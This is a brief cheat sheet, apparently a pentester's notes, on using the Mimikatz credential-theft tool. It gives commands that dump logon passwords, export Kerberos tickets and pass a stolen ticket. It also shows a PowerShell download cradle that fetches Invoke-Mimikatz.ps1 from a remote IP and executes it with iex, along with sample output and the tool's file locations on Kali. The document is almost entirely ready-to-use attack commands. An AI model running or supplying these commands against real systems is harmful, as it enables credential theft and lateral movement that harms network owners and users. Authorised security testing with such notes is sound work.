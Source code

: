 # Mimikatz
## Useful commands
List all available provider credentials
```
sekurlsa::logonpasswords
```

```
sekurlsa::tickets export
```
NOTE: Below PTT using an exported ticket
```
kerberos::ptt [0;2957a]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
```

## PowerShell Download Cradle
```
[security.local]: PS C:\> iex (New-Object Net.WebClient).DownloadString("http://10.0.5.101/Invoke-Mimikatz.ps1")
[security.local]: PS C:\> . .\Invoke-Mimikatz.ps1
[security.local]: PS C:\> Invoke-Mimikatz
Hostname: SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) #
```
## Mimikatz locations on Kali
### Executables
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe <br>
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe <br>
### PowerShell
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1 <br>
/usr/share/powershell-empire/empire/test/data/module_source/credentials/Invoke-Mimikatz.ps1 <br>
/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1
## References
The Hacker Tools - Recipes: Mimikatz<br>
https://tools.thehacker.recipes/mimikatz
